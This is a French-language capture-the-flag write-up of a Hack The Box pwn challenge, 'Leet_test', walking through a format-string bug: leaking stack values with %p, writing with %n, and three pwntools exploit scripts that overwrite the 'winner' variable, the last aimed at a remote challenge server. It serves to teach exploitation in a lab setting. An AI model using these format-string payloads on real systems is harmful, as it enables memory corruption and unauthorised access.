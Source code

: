 # Leet_test [Pwn] Challenge

— File Type —

Le programme est un 64 bit ELF Linux en sécurité il à un NX activé on ne peux donc pas exécuter de code dans le stack.

Il y a une première chose c’est que le prgramme à l’ouverture fait la commande `head /dev/urandom` 

![Untitled](Leet_test%20%5BPwn%5D%20Challenge%202852f89c911a4174ab2cda5993882379/Untitled.png)

Dans ghidra on constate un premier défaut de segmentation on a de base 280 caractères d’écriture et nous avons 250 alloué à notre réponse. 

![Untitled](Leet_test%20%5BPwn%5D%20Challenge%202852f89c911a4174ab2cda5993882379/Untitled%201.png)

Ensuite dans l’exécution du programme nous pouvons sortir de la boucle de texte et afficher le flag si nous arrivons à faire à ce que la variable local_13c * 0x13337c0de soit égale à winner

![Untitled](Leet_test%20%5BPwn%5D%20Challenge%202852f89c911a4174ab2cda5993882379/Untitled%202.png)

— Exploit the format String —

Dans notre programme %s est un format qui va ensuite examiner un argument qui est un pointeur. %s va prendre la chaîne vers laquelle pointe le pointeur et le print.

Normalement nous avons ceci en retour 

![Untitled](Leet_test%20%5BPwn%5D%20Challenge%202852f89c911a4174ab2cda5993882379/Untitled%203.png)

Mais si nous mettons %s nous nous retrouvons avec ça :

![Untitled](Leet_test%20%5BPwn%5D%20Challenge%202852f89c911a4174ab2cda5993882379/Untitled%204.png)

C’est très étrange car nous sommes pas censé avoir ce retour du tout.

![Untitled](Leet_test%20%5BPwn%5D%20Challenge%202852f89c911a4174ab2cda5993882379/Untitled%205.png)

Avec plus de %s on se retrouve avec plus d’erreur.

Si nous mettons %p nous allons leak des adresses haute 

![Untitled](Leet_test%20%5BPwn%5D%20Challenge%202852f89c911a4174ab2cda5993882379/Untitled%206.png)

Si nous rajoutons des AAA au début de notre entré avec les %p nous voyons les 0x616161

Et nous pouvons aussi écrire %10$p ce qui va nous afficher le 10ème %p

— Exploit —

```python
#!/usr/bin/env python3

from pwn import *

def main():
        io = process('./leet_test')

        winner = 0x404078 #Trouver en cliquant sur winner dans Ghidra
        payload = p64(winner) + b'%10$p'
        io.sendlineafter('Please enter your name: ', payload)

        io.interactive()

if __name__ == '__main__':
        main()
```

![Untitled](Leet_test%20%5BPwn%5D%20Challenge%202852f89c911a4174ab2cda5993882379/Untitled%207.png)

Nous avons bien notre payload fonctionnel il ressembla a cela car il retourne l’adresse pour en faire un string.

Ce sript prend contrôles des 3 varibles 

![Untitled](Leet_test%20%5BPwn%5D%20Challenge%202852f89c911a4174ab2cda5993882379/Untitled%208.png)

Avec IDA nous pouvons vérifier l’état de winner qui se transforme en winner 3 grace a nos 3 caractère de la ligne si dessous qui remplace le payload du code précédent.

```python
#!/usr/bin/env python3

from pwn import *

def main():
        io = process('./leet_test')

        winner = 0x404078 #Trouver en cliquant sur winner dans Ghidra
        payload = b'123%11$n' + p64(winner)
        io.sendlineafter('Please enter your name: ', payload)

        io.interactive()

if __name__ == '__main__':
        main()
```

Maintenant nous devons leak l’adresse de /dev/urandom :

On sait que son adresse est dans le stack en mettant une dizaine de %p on se retrouve avec cela :

```python
┌──(root💀kali)-[/home/kali/Desktop]
└─# ./leet_test                                                                                                                142 ⨯
Welcome to HTB!
Please enter your name: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p 
Hello, 0x7fff8a20dec0 (nil) (nil) 0x7fff8a210000 (nil) 0x7fff8a21000f 0x147374533da7 0x3 0x100c30000 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa20702520 0x8000 0x7fc9745346ae (nil) 
Sorry! You aren't 1337 enough :(
Please come back later
------------------------
Welcome to HTB!
Please enter your name: zsh: alarm      ./leet_test
```

La 7ème adresse est celle de /dev/urandom 0x7fff8a21000f

Notre exploit final serra ça :

```python
#!/usr/bin/env python3

from pwn import *

def main():
        context.arch = 'x86_64'
        io = remote('68.183.37.6', 31692)

        #STEP 1: Get /dev/random value
        io.sendlineafter('Please enter your name: ', '%7$p')
        random_value = io.recvline().decode()[-13:-9]
        log.success(f'Found random value: {random_value}')
        random_value = int(random_value, 16)

        #STEP 2: Overwrite winner
        target_value = random_value * 0x1337c0de
        log.info(f'Target value: {hex(target_value)}')

        winner = 0x404078
        payload = b'12345678910%12$n' + p64(winner)
        io.sendlineafter('Please enter your name: ', payload)

        def exec_fmt(payload):
                io.sendlineafter('Please enter your name: ', payload)
                io.info(f'Format string payload {payload} sent.')
                return io.recvline()

        f = FmtStr(exec_fmt, offset=10)
        f.write(winner, target_value)
        f.execute_writes()

        io.interactive()

if __name__ == '__main__':
        main()
```

Nous allons réécrire le code et déclencher le break et pouvoir afficher le flag.